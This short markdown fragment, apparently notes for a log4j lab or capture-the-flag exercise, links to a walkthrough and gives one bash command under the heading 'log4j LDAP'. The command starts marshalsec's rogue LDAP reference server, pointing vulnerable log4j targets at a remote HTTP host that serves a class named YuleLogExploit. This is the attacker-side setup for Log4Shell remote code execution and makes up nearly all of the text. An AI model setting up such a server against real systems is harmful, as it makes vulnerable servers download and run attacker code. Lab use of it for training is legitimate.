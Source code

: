 
Walkthrough -> https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4

# log4j LDAP
```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://172.17.0.7:8080/#YuleLogExploit"
```
